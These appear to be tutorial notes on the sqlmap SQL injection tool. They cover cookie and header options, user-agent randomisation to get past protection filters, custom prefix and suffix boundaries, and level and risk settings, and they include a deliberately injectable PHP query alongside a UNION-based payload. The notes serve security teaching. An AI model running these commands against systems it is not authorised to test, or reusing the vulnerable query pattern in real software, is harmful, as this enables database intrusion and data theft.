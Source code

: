 For example, if there is a requirement to specify the (session) cookie value to `PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c` option `--cookie` would be used as follows:
```bash
sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
```

The same effect can be done with the usage of option `-H/--header`:
```bash
sqlmap ... -H='Cookie:PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
```
- We can apply the same to options like `--host`, `--referer`, and `-A/--user-agent`

There is a switch `--random-agent` designed to randomly select a `User-agent` header value from the included database of regular browser values.
- More and more protection solutions automatically drop all HTTP traffic containing the recognizable default SQLMap's User-agent value
- Alternatively, the `--mobile` switch can be used to imitate the smartphone

It is possible to test the headers for the SQLi vulnerability.
- To specify the "custom" injection mark after the header's value: `--cookie="id=1*"`

if we wanted to specify an alternative HTTP method, other than `GET` and `POST` (e.g., `PUT`), we can utilize the option `--method`:
```bash
sqlmap -u www.target.com --data='id=1' --method PUT
```
### Custom HTTP Requests
SQLMap also supports JSON formatted (e.g. `{"id":1}`) and XML formatted (e.g. `<element><id>1</id></element>`) HTTP requests.

In case the `POST` body is relatively simple and short, the option `--data` will suffice.

However, in the case of a complex or long POST body, we can once again use the `-r` 
## Attack Tuning
### Prefix/Suffix
There is a requirement for special prefix and suffix values in rare cases, not covered by the regular SQLMap run.  

For such runs, options `--prefix` and `--suffix` can be used as follows:
```bash
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"
```

This will result in an enclosure of all vector values between the static prefix `%'))` and the suffix `-- -`.

For example, if the vulnerable code at the target is:
```php
$query = "SELECT id,name,surname FROM users WHERE id LIKE (('" . $_GET["q"] . "')) LIMIT 0,1";
$result = mysqli_query($link, $query);
```

The vector `UNION ALL SELECT 1,2,VERSION()`, bounded with the prefix `%'))` and the suffix `-- -`, will result in the following (valid) SQL statement at the target:
```sql
SELECT id,name,surname FROM users WHERE id LIKE (('test%')) UNION ALL SELECT 1,2,VERSION()-- -')) LIMIT 0,1
```
### Level/Risk
There is a possibility for users to use bigger sets of boundaries and vectors, already incorporated into the SQLMap with the options `--level` and `--risk`:
- The option `--level` (`1-5`, default `1`) extends both vectors and boundaries being used, based on their expectancy of success (i.e., the lower the expectancy, the higher the level).
- The option `--risk` (`1-3`, default `1`) extends the used vector set based on their risk of causing problems at the target side (i.e., risk of database entry loss or denial-of-service).
